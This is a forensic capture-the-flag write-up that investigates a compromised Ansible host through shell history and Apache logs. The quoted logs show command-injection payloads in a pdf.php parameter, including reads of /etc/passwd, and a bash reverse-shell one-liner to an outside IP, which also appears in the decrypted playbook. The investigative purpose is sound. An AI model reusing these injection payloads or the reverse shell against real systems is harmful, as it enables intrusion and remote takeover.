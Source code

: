 # Open my vault

[root-me challenge](https://www.root-me.org/en/Challenges/Forensic/Open-My-Vault): The DevOps of your SI reports that the Ansible master has been running strange playbooks on machines. You tell him that it was not a good idea to install Ansible on the same machine as the website, but that you will investigate. In prevention, he says he has put the site in maintenance and removed SSH keys on the nodes, but that he has not touched the logs.

The challenge is available via the CTF-ATD "Open My Vault" machine. There is no need to root it.

----

Check the user's history:

```text
    1  id 
    2  cat /etc/passwd
    3  pwd 
    4  cd /home/m4st3r/
    5  ping 128.66.0.0
    6  cat /etc/shadow
    7  l 
    8  ll
    9  cd ansible/
   10  ls -lah
   11  tree . 
   12  cat inventory.cfg 
   13  cat playbook.yml 
   14  cat roles/zip/tasks/main.yml 
   15  mkdir roles/other
   16  mkdir roles/other/tasks
   17  ansible-vault -h
   18  ansible-vault create roles/other/tasks/main.yml
   19  vim playbook.yml 
   20  ansible-playbook -h 
   21  ansible-playbook -i inventory.cfg --vault-password-file=/tmp/.secure playbook.yml 
   22  rm /tmp/.secure 
   23  cd ..
   24  rm -rf .ssh
```

`m4st3r` ran an encrypted playbook with the password located in `/tmp/.secure` and then removed `/tmp/.secure`.

He may have forgotten to remove the log. Check `/var/log/apache2/access.log`:

```text
m4st3r@my_v4ult:~$ cat /var/log/apache2/access.log | grep ".secure"
203.0.113.0 - - [03/Sep/2022:13:34:31 +0200] "GET /pdf.php?name=a.pdf;echo%20%22C4tXk9ctpG9QEMeL%22%20%3E%20/tmp/.secure HTTP/1.1" 200 31 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:104.0) Gecko/20100101 Firefox/104.0"
m4st3r@my_v4ult:~$ cat /var/log/apache2/access.log | grep "pdf.php?"
203.0.113.0 - - [03/Sep/2022:13:32:24 +0200] "GET /pdf.php?name=website_report.pdf HTTP/1.1" 200 31 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:104.0) Gecko/20100101 Firefox/104.0"
203.0.113.0 - - [03/Sep/2022:13:32:42 +0200] "GET /pdf.php?name=a.pdf;id HTTP/1.1" 200 59 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:104.0) Gecko/20100101 Firefox/104.0"
203.0.113.0 - - [03/Sep/2022:13:32:51 +0200] "GET /pdf.php?name=a.pdf;pwd HTTP/1.1" 200 52 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:104.0) Gecko/20100101 Firefox/104.0"
203.0.113.0 - - [03/Sep/2022:13:33:11 +0200] "GET /pdf.php?name=a.pdf;whoami HTTP/1.1" 200 40 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:104.0) Gecko/20100101 Firefox/104.0"
203.0.113.0 - - [03/Sep/2022:13:33:15 +0200] "GET /pdf.php?name=a.pdf;cat%20/etc/issue HTTP/1.1" 200 58 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:104.0) Gecko/20100101 Firefox/104.0"
203.0.113.0 - - [03/Sep/2022:13:33:21 +0200] "GET /pdf.php?name=a.pdf;cat%20/etc/passwd HTTP/1.1" 200 593 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:104.0) Gecko/20100101 Firefox/104.0"
203.0.113.0 - - [03/Sep/2022:13:33:56 +0200] "GET /pdf.php?name=a.pdf;ls%20/home/m4st3r HTTP/1.1" 200 31 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:104.0) Gecko/20100101 Firefox/104.0"
203.0.113.0 - - [03/Sep/2022:13:34:02 +0200] "GET /pdf.php?name=a.pdf;ls%20/home/m4st3r/ansible HTTP/1.1" 200 31 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:104.0) Gecko/20100101 Firefox/104.0"
203.0.113.0 - - [03/Sep/2022:13:34:31 +0200] "GET /pdf.php?name=a.pdf;echo%20%22C4tXk9ctpG9QEMeL%22%20%3E%20/tmp/.secure HTTP/1.1" 200 31 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:104.0) Gecko/20100101 Firefox/104.0"
203.0.113.0 - - [03/Sep/2022:13:34:57 +0200] "GET /pdf.php?name=a.pdf;bash%20-i%20%3E&%20/dev/tcp/128.66.0.0/4444%200%3E&1 HTTP/1.1" 200 31 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:104.0) Gecko/20100101 Firefox/104.0"
```

Attack via a `.pdf`. urldecode the last two commands for clarity:

```text
echo "C4tXk9ctpG9QEMeL" > /tmp/.secure
bash -i >& /dev/tcp/128.66.0.0/4444 0>&1
```

Decrypt the vault's `.secure` password:

```text
m4st3r@my_v4ult:~$ echo "C4tXk9ctpG9QEMeL" > /tmp/.secure
```

In the ansible directory:

```text
m4st3r@my_v4ult:~/ansible$ ansible-vault decrypt --vault-pass-file /tmp/.secure roles/other/tasks/main.yml
Decryption successful
```

```text
m4st3r@my_v4ult:~/ansible$ cat roles/other/tasks/main.yml
- name: "hack the planet" 
  ansible.builtin.shell: "bash -i >& /dev/tcp/128.66.0.0/4444 0>&1"

- name: "If someone search for a Flag ^^"
  ansible.builtin.shell: "echo 'redacted!!' > /flag"

```
